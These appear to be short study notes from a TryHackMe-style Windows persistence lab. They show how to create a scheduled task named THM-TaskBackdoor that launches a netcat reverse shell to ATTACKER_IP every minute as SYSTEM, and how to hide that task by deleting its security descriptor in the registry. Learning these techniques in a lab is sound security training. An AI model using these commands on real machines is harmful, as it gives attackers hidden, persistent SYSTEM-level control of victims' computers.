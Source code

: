 #cybersecurity #windows 

### Task Scheduler
This allows granular control of when the task start
`schtask` to interact with.

Let's create a task that runs a reverse shell every single minute

```cmd
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created
```

`/sc` e `/mo` tells that the task should run every minute
`/ru` to tell the task to run with SYSTEM privileges

To check if a task exists

```cmd
schtasks /query /tn thm-taskbackdoor
```

### Making the task invisible
To hide it we can delete the **Security Descriptor**. It's an ACL that states wich user has access to the task. Deleting it is equivalent to disallowing all user's access.
It's stored in 
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`

`c:\tools\pstools\PsExec64.exe -s -i regedit`

The SD is under the SD value of the key of the task
